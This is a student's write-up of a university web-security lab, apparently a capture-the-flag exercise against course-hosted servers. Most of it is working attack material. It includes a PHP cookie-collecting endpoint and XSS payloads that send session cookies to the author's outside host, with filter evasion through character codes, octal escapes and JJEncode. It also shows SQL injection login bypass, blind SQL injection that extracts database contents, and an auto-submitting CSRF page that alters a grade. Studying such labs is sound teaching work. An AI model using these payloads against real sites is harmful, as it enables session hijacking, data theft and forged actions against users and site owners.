

# CSE 484 Lab 2

## Pikachu, Meowth, and Cookies

### Problem 1

For this problem, we are going to steal the authentication cookie of Meow server.


Notice that an alert script was triggered. That means the page contains XSS vulnerability!

Hence, what we can do is to give Meow server a legit url and trick it to visit this page. In this page, insert a script to send its cookie to our server.

First, on our server, write the following PHP code.

```php
// CookieEater.php

<?php

if (isset($_GET["cookie"])) {
  $cookie = $_GET["cookie"];
  file_put_contents("hello.txt", $cookie."\n", FILE_APPEND);
}

?>
```

Change the mode of the PHP file to be 644.

Construct a link as:

```
http://codered.cs.washington.edu/lab2/pmc/simple.php?url=<script>var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='%2Bdocument.cookie</script>
```

**Remember to write the '+' sign to be '%2B' because of URL encoding!**

Click the button to ask the Meow server to visit it.

Inside the `hello.txt` file, we can see:

```
$ > cat hello.txt 
authenticated=5285b3ba68908ba4df4bd0c29af537808b350abf
```

Go back to the original Meow server page and add the new cookie to get us authenticated.

Refresh the page and it's done.

### Problem 2

Notice that this time, the "script" keyword is replaced by the server to be "div".

One idea is that we can use image tag instead and convert the javascript code to an array of chars to convert it back and evaluate it.

The code we want to run is as follows:

```
var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='+document.cookie;
```

Use the following python code to convert it into an array of chars:

```python
s = "var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='+document.cookie;"
l = list(map(ord, s))
print(l)
```

and we get the string is:

```
[118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59]
```

Hence, the image should be:

```

```

Hence, the url we want Meow server to visit is:

```
http://codered.cs.washington.edu/lab2/pmc/notsosimple.php?url=
```

The authenticate code is `authenticated=45bbc3430fdef274e307bfab45b75a28e291f9db`.

Done.

### Problem 3

Notice that in this problem, we have the following substitutions:

```
script -> scriptorium
style -> stylet
\space -> #[space]
on -> onion
```

To circumvent the substitution of space, we use "/".

The tag we would try to insert is `iframe` , which allows us to insert html into the `src` attriubte.

A simple way to trigger the event would be:

```
<iframe/src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

Where "%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E" corresponds to "<script>alert(1)</script>". Refer to [this page](https://www.url-encode-decode.com/) for more informatino. Basically, `%HH` where `HH` corresponds to the hex value of the character.

Write the following python script to encode:

```python
s = "<script>var img=new Image();img.src='https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie='+document.cookie;</script>"
ss = ""
for c in list(s):
    ss += "%" + hex(ord(c)).upper()[2:]
print(ss)
```

Hence, the payload is

```
%3C%73%63%72%69%70%74%3E%76%61%72%20%69%6D%67%3D%6E%65%77%20%49%6D%61%67%65%28%29%3B%69%6D%67%2E%73%72%63%3D%27%68%74%74%70%73%3A%2F%2F%68%6F%6D%65%73%2E%63%73%2E%77%61%73%68%69%6E%67%74%6F%6E%2E%65%64%75%2F%7E%7A%65%74%69%61%63%2F%43%6F%6F%6B%69%65%45%61%74%65%72%2E%70%68%70%3F%63%6F%6F%6B%69%65%3D%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B%3C%2F%73%63%72%69%70%74%3E
```

Use the following python code to urlencode it:

```python
import urllib.parse
s = '%3C%73%63%72%69%70%74%3E%76%61%72%20%69%6D%67%3D%6E%65%77%20%49%6D%61%67%65%28%29%3B%69%6D%67%2E%73%72%63%3D%27%68%74%74%70%73%3A%2F%2F%68%6F%6D%65%73%2E%63%73%2E%77%61%73%68%69%6E%67%74%6F%6E%2E%65%64%75%2F%7E%7A%65%74%69%61%63%2F%43%6F%6F%6B%69%65%45%61%74%65%72%2E%70%68%70%3F%63%6F%6F%6B%69%65%3D%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B%3C%2F%73%63%72%69%70%74%3E'
ss = urllib.parse.quote_plus(s)
print(ss)
```

The resulting urlencoded payload is:

```
%253C%2573%2563%2572%2569%2570%2574%253E%2576%2561%2572%2520%2569%256D%2567%253D%256E%2565%2577%2520%2549%256D%2561%2567%2565%2528%2529%253B%2569%256D%2567%252E%2573%2572%2563%253D%2527%2568%2574%2574%2570%2573%253A%252F%252F%2568%256F%256D%2565%2573%252E%2563%2573%252E%2577%2561%2573%2568%2569%256E%2567%2574%256F%256E%252E%2565%2564%2575%252F%257E%257A%2565%2574%2569%2561%2563%252F%2543%256F%256F%256B%2569%2565%2545%2561%2574%2565%2572%252E%2570%2568%2570%253F%2563%256F%256F%256B%2569%2565%253D%2527%252B%2564%256F%2563%2575%256D%2565%256E%2574%252E%2563%256F%256F%256B%2569%2565%253B%253C%252F%2573%2563%2572%2569%2570%2574%253E
```

Therefore, the url we want to use is:

```
http://codered.cs.washington.edu/lab2/pmc/reallyhard.php?url=<iframe/src="data:text/html,%253C%2573%2563%2572%2569%2570%2574%253E%2576%2561%2572%2520%2569%256D%2567%253D%256E%2565%2577%2520%2549%256D%2561%2567%2565%2528%2529%253B%2569%256D%2567%252E%2573%2572%2563%253D%2527%2568%2574%2574%2570%2573%253A%252F%252F%2568%256F%256D%2565%2573%252E%2563%2573%252E%2577%2561%2573%2568%2569%256E%2567%2574%256F%256E%252E%2565%2564%2575%252F%257E%257A%2565%2574%2569%2561%2563%252F%2543%256F%256F%256B%2569%2565%2545%2561%2574%2565%2572%252E%2570%2568%2570%253F%2563%256F%256F%256B%2569%2565%253D%2527%252B%2564%256F%2563%2575%256D%2565%256E%2574%252E%2563%256F%256F%256B%2569%2565%253B%253C%252F%2573%2563%2572%2569%2570%2574%253E"></iframe>
```

Ok, look at the `hello.txt` file, we have the token already:

`authenticated=cd1abf821c9d8f4a4f4ea6cb5870bf7e98dcff51`.

Done.

### Problem 4

Ok, in this problem, the previous solution wouldn't work because the server escapes the data in the iframe. However, interestingly, this time, we can use `space`, `script`, and `on`. The only problem is that we cannot use `<`, `>`, `(`, `)`, and `document`.

Hence, the idea of our attack is to construct a string corresponding to our payload, use `String.fromCharCode` to decode it, and use `eval` to execute it. However, since the parentheses are not allowed, we can use literals instead and try to achieve the same effect.

Notice that literals are really different from parentheses when used to call functions.

Ok, following are the solutions:

The payload is 

```
" onerror="var l=[118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59];var s=String.fromCharCode.apply`${l}`;eval.apply`${[s]}`" src="
```

Notice the importance of using `apply` in this problem. Directly calling "eval\`something\`" will not execute the command but only return an array.

Hence, the url to use for this problem is:

```
http://codered.cs.washington.edu/lab2/pmc/pie.php?url=%22+onerror%3D%22var+l%3D%5B118%2C+97%2C+114%2C+32%2C+105%2C+109%2C+103%2C+61%2C+110%2C+101%2C+119%2C+32%2C+73%2C+109%2C+97%2C+103%2C+101%2C+40%2C+41%2C+59%2C+105%2C+109%2C+103%2C+46%2C+115%2C+114%2C+99%2C+61%2C+39%2C+104%2C+116%2C+116%2C+112%2C+115%2C+58%2C+47%2C+47%2C+104%2C+111%2C+109%2C+101%2C+115%2C+46%2C+99%2C+115%2C+46%2C+119%2C+97%2C+115%2C+104%2C+105%2C+110%2C+103%2C+116%2C+111%2C+110%2C+46%2C+101%2C+100%2C+117%2C+47%2C+126%2C+122%2C+101%2C+116%2C+105%2C+97%2C+99%2C+47%2C+67%2C+111%2C+111%2C+107%2C+105%2C+101%2C+69%2C+97%2C+116%2C+101%2C+114%2C+46%2C+112%2C+104%2C+112%2C+63%2C+99%2C+111%2C+111%2C+107%2C+105%2C+101%2C+61%2C+39%2C+43%2C+100%2C+111%2C+99%2C+117%2C+109%2C+101%2C+110%2C+116%2C+46%2C+99%2C+111%2C+111%2C+107%2C+105%2C+101%2C+59%5D%3Bvar+s%3DString.fromCharCode.apply%60%24%7Bl%7D%60%3Beval.apply%60%24%7B%5Bs%5D%7D%60%22+src%3D%22
```

The authentication code for this problem is `authenticated=729efab9f893b1d3fd47eafb4cb43cf42e3ce62a`.

### Problem 5

No more comment. Too easy compared with the previous problem.

Payload is:

```
";var img=new Image();img.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="%2Bdocument.cookie;"
```

Hence, the url to make the server go to is:

```
http://codered.cs.washington.edu/lab2/pmc/vikings.php?url=";var img=new Image();img.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="%2Bdocument.cookie;"
```

The authentication code is `authenticated=de607f28caabd2113dad11467f3d80258c7545ed`.

### Problem 6

Ok, in this problem, parenthesis and plus signs are not allowed again. In other words, this problem is merely a combination of problem 4 and 5.

Hence, the url should be:

```
http://codered.cs.washington.edu/lab2/pmc/volleyball.php?url=";var l=[118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59];var s=String.fromCharCode.apply`${l}`;eval.apply`${[s]}`;"
```

The authentication code is: `authenticated=e594be92fbbf0fef75eb2a27ba9d38e96ce69b5e`.

### Problem 7

In this problem, letters `bcdfhijrstz` are replaced (case-insensitive).

The first idea that comes to my mind is that `eval` is still usable. Hence, we can create a string and let eval to execute that string.

Since hex numbers contains `bcdf`, we need to use oct numbers. Our payload is:

```
var a=new Image();a.src="http://students.washington.edu/zetiac/CSE484/CookieEater.php?cookie="+document.cookie;
```

Hence, we can write the following python code to convert the payload:

```python
command = 'var a=new Image();a.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="+document.cookie;'
blacklist = "bcdfhijrstz"
s = ""

for e in command:
    if e.lower() in blacklist:
        n = oct(ord(e))[2:]
        if len(n) == 2:
            n = "0" + n
        n = "\\" + n
    else:
        n = e
    s += n

s = s.replace("+","%2B")
print(s)
```

Hence, the url to submit is:

```
http://codered.cs.washington.edu/lab2/pmc/impossible.php?url=";eval('va\162 a=new \111mage();a.\163\162\143="\150\164\164p\163://\150ome\163.\143\163.wa\163\150\151ng\164on.e\144u/~\172e\164\151a\143/\103ook\151eEa\164e\162.p\150p?\143ook\151e="%2B\144o\143umen\164.\143ook\151e;');"
```

and then we got the authentication token:

```
authenticated=e0e35dfaaa5994d36992de4c448133dd7ae05fdd
```

Done!

### Problem 8

In this problem, the requests we are sending are no longer GET request; we are POST requests.

Since this time we cannot use any letter or number, the first thing that came to my mind was JJencode or JsFuck. Since JJEncode is shorter than the latter, we will use it.

Again, the payload is:

```javascript
var img=new Image();img.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="+document.cookie;
```

Hence, the encoded payload is:

```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+"=\\"+$.__$+$.$_$+$.$$_+$.$$$_+"\\"+$.__$+$.$$_+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+$.$_$_+"\\"+$.__$+$.$__+$.$$$+$.$$$_+"();\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+".\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$_+$.$$__+"=\\\"\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$$$+$._$_+$.$$$_+$.__+"\\"+$.__$+$.$_$+$.__$+$.$_$_+$.$$__+"/\\"+$.__$+$.___+$._$$+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=\\\"+"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+";"+"\"")())();
```

To fix the quote issues, we add to the beginning and the back of this string:

```
";$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+"=\\"+$.__$+$.$_$+$.$$_+$.$$$_+"\\"+$.__$+$.$$_+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+$.$_$_+"\\"+$.__$+$.$__+$.$$$+$.$$$_+"();\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+".\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$_+$.$$__+"=\\\"\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$$$+$._$_+$.$$$_+$.__+"\\"+$.__$+$.$_$+$.__$+$.$_$_+$.$$__+"/\\"+$.__$+$.___+$._$$+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=\\\"+"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+";"+"\"")())();"
```

Let's go back to our server can create the following page:

```html
<!DOCTYPE html>
<html>
<head>
  <title>Evil</title>
</head>
<body>
  <form method="POST" action="https://codered.cs.washington.edu/lab2/pmc/wobbuffet.php?">
    <input name="url" type="hidden" value='";$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+"=\\"+$.__$+$.$_$+$.$$_+$.$$$_+"\\"+$.__$+$.$$_+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+$.$_$_+"\\"+$.__$+$.$__+$.$$$+$.$$$_+"();\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+".\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$_+$.$$__+"=\\\"\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$$$+$._$_+$.$$$_+$.__+"\\"+$.__$+$.$_$+$.__$+$.$_$_+$.$$__+"/\\"+$.__$+$.___+$._$$+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=\\\"+"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+";"+"\"")())();"'/>
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

Put the url of this web page to the input box: `https://homes.cs.washington.edu/~zetiac/evil.html`.

Go back and check out our server, and we found the authentication token:

```
authenticated=1f715b44d977c9822ceee4e32df871099749b730
```

Done!

## Jailbreak

### Prolbem 1


This is really an easy one.

Choose whatever you want for username and make password to be always true.

```
Username: admin
Password: ' or 1 = 1 ; -- 
```

### Prolem 2


New names are going to be inserted to the table. That's all.

Solution:

```
dodo', (SELECT K.name from (SELECT * FROM sql2 WHERE sql2.approved=1 ORDER BY sql2.name LIMIT 10,1) AS K));
```


Input the name we just put in jail `dodo`, we would see:


Now, we know that the person's name is called `Chicken Husky`.

### Problem 3


Notice that if we try

```
') # 
```

The result is

```
Command "')#"cannot not found. Perhaps you mean one of the followings? (Shows up to four results)

fight
item
run
spell
```



Notice that this happens when the sql command executes successfully but multiple results have been returned back. The server does not know which command it is (It must have used `sth IN sth` or `sth LIKE sth`). If the command fails, it would say

```
You broke something :(
```

With this, we are able to use blind injection. [This blog](https://blog.csdn.net/liweibin812/article/details/86510860) was really helpful to me.

#### Guess the name of the database

Attempts:

```
') and sleep(if(ascii(substr(database(), 1, 1)) < 116, 0, 5) % 23 #

') and sleep(if(ascii(substr(database(), 1, 1)) < 60, 0, 5) % 23

') or length(database()) = 1 # 

fight') and length(database()) = 1 # 

') and length(database()) = 4 #
=> the length of the database name is 4

') and ascii(substr(database(), 1, 1)) > 97 # 

') and ascii(substr(database(), 1, 1)) > 100 # => true
') and ascii(substr(database(), 1, 1)) > 120 # => false
') and ascii(substr(database(), 1, 1)) > 110 # => false
') and ascii(substr(database(), 1, 1)) < 105 # => false
') and ascii(substr(database(), 1, 1)) > 107 # => true
') and ascii(substr(database(), 1, 1)) > 108 # => false
=> the first character is chr(108) = 'l'

Similar approach => 'lab2'
```

#### Guess the name of the tables

Attempts:

```
') and (select count(table_name) from information_schema.tables where table_schema=database())=2 # => true

guess the length of the first table name
') and length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 2 # => false
') and length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 4 # => true
=> the length of the first table name is 4

Similar approach
') and length((select table_name from information_schema.tables where table_schema=database() limit 1,1)) = 14 # => true
=> the length of the second table name is 14

') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 97 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 100 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 110 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 120 # => false
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 115 # => false
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 113 # => false
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 113 # => true
') and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 114 # => true
=> the first character is chr(115) = 's'

Similar approach => the first table is called 'sql3', and the second table is called 'sql3-truepower'
```

#### Guess the column name of table sql3-truepower

Attempts:

```
') and (select count(column_name) from information_schema.columns where table_name='sql3-truepower')=1 # => true

guess the name of the column
') and length((select column_name from information_schema.columns where table_name= ’users’ limit 0,1)))=1

') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 4 # => true
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 14 # => true
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 20 # => false
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) > 18 # => false
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) < 17 # => false
') and length((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1)) = 18 # => true

') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 97 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 120 # => false
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 110 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 115 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 117 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) = 119 # => true
=> the first character of the column name is 'w'

Following the same procedure, we know the column name is 'whatyoucanreallydo'
```

#### Guess the name of the first value of whatyoucanreallydo in sql3-truepower

Attempts:

```
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 3 # => true
Notice that there is a '-' in the table name. Hence, we have to use ``.
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 10 # => true
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 14 # => false
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 12 # => true
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) = 13 # => true
=> The length of the first value is 13

Guess the value of the first value of whatyoucanreallydo in sql3-truepower.
') and ascii(substr((select whatyoucanreallydo from `sql3-truepower` limit 0,1) ,1,1)) > 97 # => true
') and ascii(substr((select whatyoucanreallydo from `sql3-truepower` limit 0,1) ,1,1)) = 104 # => true
=> the first character is 'h'

Following the same procedure, we know the command is 'hacktheplanet'
```

Now, we type in `hacktheplanet` into the box:


## Hack Your 4.0


So simple. Just use the following html to launch a CSRF attack!

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Cute Panda</title>
  </head>
  <body>
    <form method="POST" action="https://codered.cs.washington.edu/lab2/supersecuregradingsystem/?action=update-grade">
      <input type="hidden" name="groups" value="The_Great_Firewall">
      <input type="hidden" name="grade" value="100">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Go back and check the page, and we see:


**NOTE:** When constructing the auto-submit form, use `https` instead of `http`! Somehow, `http` would always fail.

## Final Completion

